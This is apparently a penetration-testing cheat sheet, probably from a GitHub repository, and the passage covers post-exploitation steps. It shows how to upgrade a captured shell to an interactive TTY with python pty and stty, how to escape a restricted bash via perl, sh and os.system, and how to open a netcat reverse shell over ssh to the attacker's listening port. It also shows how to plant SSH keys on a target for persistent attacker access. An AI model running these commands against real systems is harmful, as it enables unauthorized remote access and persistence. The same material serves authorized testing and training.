   - [Source](#source)

## Spawn Interactive Shell and set env  

```bash
> python -c 'import pty;pty.spawn("/bin/bash");'  
> python3 -c 'import pty;pty.spawn("/bin/bash");'  

# ctrl z  
$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
$ stty raw -echo; fg  [ENTER]  [ENTER]

> python -c 'import pty;pty.spawn("/bin/bash");'  
> stty rows ROWS cols COLS
> echo $TERM  
> export TERM=xterm-256color 
```

Restricted bash:

```bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  
```

## SSH key

### On target

```sh
ssh-keygen
mkdir -m 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

### Attacker

```bash
ssh -i id_rsa USERNAME@IP_ADDRESS
```

### Check ssh key

```bash
ssh-keyscan IP_ADDRESS
```

## Get info
